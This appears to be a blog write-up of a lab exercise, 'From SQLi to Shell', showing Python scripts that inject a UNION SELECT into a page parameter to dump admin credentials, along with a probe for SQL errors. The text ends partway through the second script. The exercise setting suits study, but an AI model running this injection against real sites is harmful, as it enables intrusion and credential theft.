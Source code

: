 \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Scripting From Sql Injection to Shell ]

This module asks us to "fully script" the From SQLi to Shell exercise. 

It is easy to script the injection when you know the vulnerable URL

{% highlight python linenos %}
#!/usr/bin/python
# SQLi to Shell Script
# www.maxmunday.com 

import urllib2
import re

url = urllib2.urlopen("http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users;")

r = url.read()

creds = "admin:.+"
search = re.search(creds, r)

if search:
    print "[+] Admin credentials found"
    print "[+]", search.group(0)

else:
    print "[!] No credentials found"
{% endhighlight %}

Giving us

```
$ python sqli2shell.py
[+] Admin credentials found 
[+] admin:8efe310f9ab3efeae8d410a8e0166eb2
```

But there's not a lot of satisfaction in this. 

So I started to code a script that would probe for the vulnerabilty incrementally. But where does it stop? Should I assume knowledge of the SQL database type? Different names of columns and tables?

I can't code up another [SQLMap](http://sqlmap.org/).

So I thought I would just play around with it, and script as much as I can about discovering the SQLi vulnerablity piece by piece.

First we should test for SQLi vulnerabilty (whether a single quote (') invokes a SQL error)
{% highlight python linenos %}
#!/usr/bin/python
# SQLi to Shell Script
# www.maxmunday.com 
import urllib2
import re

url = "http://vulnerable/cat.php?id=1"

r = urllib2.urlopen(url + "'")
b = r.read()

print "[+] Checking website for SQL injection vulnerablity..."

if "You have an error in your SQL syntax" in b:
    print "[+] Website is vulnerable to SQL injection"